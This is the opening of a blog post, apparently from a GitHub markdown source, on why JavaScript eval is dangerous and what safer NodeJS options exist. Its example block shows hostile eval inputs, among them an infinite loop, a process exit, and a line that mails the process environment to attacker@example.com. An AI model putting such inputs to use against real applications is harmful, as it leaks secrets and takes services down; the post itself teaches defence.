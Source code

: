 ```yaml
---
layout: post
title: "Eval no more: a journey through NodeJS' VM module, VM2 and Expression Language"
date: 2017-03-04 21:28
comments: true
categories: [nodejs, javascript, vm, eval]
description: "A safer alternative to implement expression parsers in NodeJS: let's look at eval, VM and VM2."
---
```


How many times have you heard of [how evil eval is](https://www.google.ae/search?q=eval&oq=eval&aqs=chrome..69i57j69i60l3j0l2.673j0j7&sourceid=chrome&ie=UTF-8#q=eval+is+evil)? Are there safer alternatives in the modern, server-side JavaScript ecosystem?



## The problem with eval

{% img right /images/security.png %}

`eval` is not necessary evil -- you *just* need to make sure you're dealing with
trusted inputs.

The problem lies in that "just", as you can't 100% guarantee that the source of
the eval-ed code (a DB, a file) won't get compromised at any point in time.

Long story short: **consider all code that goes through an `eval` untrusted**.

Here's some funny things `eval` can do:

``` js
// Guess what?
eval('while(true) console.log(1)')
console.log('The application goes on...')

// What if the attacker doesn't want to waste time?
eval('process.exit(0)')
console.log('The application goes on...')

// Let's escalate...
eval('require("node-mailer").mail("attacker@example.com", JSON.stringify(process.ENV))')
console.log('The application goes on...')

// And, for the lolz:
eval('eval = undefined')
console.log('The application goes on...')
```

The last example is the one I like the most: there an attacker would re-define
the `eval` function itself, causing the application to crash (`TypeError: eval is not a function`)
the next time that block of code is executed.

Now that we've seen some basic examples on how you could easily tear down an
application that uses `eval` too eagerly, let's take a step back and try
to figure out when it could be a good idea to execute "external" code
on-the-fly.
